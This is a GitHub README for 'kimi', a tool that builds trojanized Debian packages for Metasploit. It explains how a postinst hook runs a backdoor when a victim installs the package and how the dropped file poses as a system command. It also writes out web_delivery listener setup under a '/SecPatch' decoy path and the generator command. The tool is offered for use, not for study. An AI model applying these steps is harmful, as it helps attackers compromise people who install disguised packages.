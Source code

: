 # kimi - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

# About & Plus points & Usage & Tested On :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    
    Backdoor gets executed just when victim tries to install deb package due to postinst file
    
    Bash file injects and also acts like some system command which when executed by victim 
    and attacker hits with session.
    
    Plus Points :
    -- Fully indiependent. Means user no need to install any debian package creator
    -- Can be integrated with any payload generator easily due to engagements of arguemt (lame :P i know) 
    
    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0 -a i386
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)
                Kali Rolling 2.0
# Updates :::
    [Feb-22-2017]
    -- Added "postinst" file creation function to make embeded malicious file execution automated
    -- Added RC file generation function to fully automate with handler opening, means no need to 
        set handler manually
    -- Patched some common bugs [special thanks to r00t 3xp10it :)]
    
    [Oct-12-2017]
    -- Added command line argument(-a/--arch) to select architecture(i386/amd64)
    
# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/kimi.PNG)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting1.1.png)

# Misc :::
       Blog Post     : http://hackinguyz.blogspot.in/2017/03/kimi-malicious-debian-package-creator.html
       YouTube Video : https://youtu.be/Dsn6BRHy9_w  

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
   Twitter : @bofheaded 
    | Wrote while listening jams of Vidya VOX ;) 
